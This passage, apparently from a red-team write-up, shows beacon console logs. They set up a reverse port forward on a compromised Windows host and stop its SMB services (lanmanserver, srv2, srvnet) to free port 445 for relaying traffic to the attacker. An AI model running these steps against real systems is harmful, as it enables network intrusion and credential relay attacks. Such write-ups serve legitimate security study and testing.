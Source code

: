 ## SMB Unbinding

We can perform the above relay by doing a reverse port forward on `TABULARIUM` to our machine on `TCP/445 (SMB)`, however we will soon find an access denied.

```
[05/26 02:13:23] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:13:23] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:13:23] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:13:23] [+] host called home, sent: 10 bytes
[05/26 02:13:23] [-] Could not bind to 445
```

This is occuring because `TABULARIUM` is a domain-joined Windows machine, and the `SYSTEM` process is currently using it for the `SMB` service.

> PID 4 is the `System` process, which is responsible for managing system-level services and processes.

```
[05/26 02:13:44] beacon> run netstat -ano
[05/26 02:13:44] [*] Tasked beacon to run: netstat -ano
[05/26 02:13:45] [+] host called home, sent: 30 bytes
[05/26 02:13:45] [+] received output:

Active Connections
    Proto  Local Address          Foreign Address        State           PID
    TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1000
    TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       7624
    TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1100
    TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
```

In the past, the go-to method for "unbinding" SMB is using [PortBender](https://github.com/praetorian-inc/PortBender) to forcefully redirect traffic on `TCP/445` using `WinDivert64.sys`. However, from my testing this seems to no longer be functional and/or maintained.

Luckily, there's an alternative method to release the SMB service from port 445: just force-stop the user-space services that provide SMB functionality.

Running the following commands in this order will release the port:

```
sc stop lanmanserver
sc stop srv2
sc stop srvnet
```

```
[05/26 02:23:21] beacon> run sc stop lanmanserver
[05/26 02:23:21] [*] Tasked beacon to run: sc stop lanmanserver
[05/26 02:23:21] [+] host called home, sent: 38 bytes
[05/26 02:23:21] [+] received output:

SERVICE_NAME: lanmanserver 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x4e20

[05/26 02:23:52] beacon> run sc stop srv2
[05/26 02:23:52] [*] Tasked beacon to run: sc stop srv2
[05/26 02:23:53] [+] host called home, sent: 30 bytes
```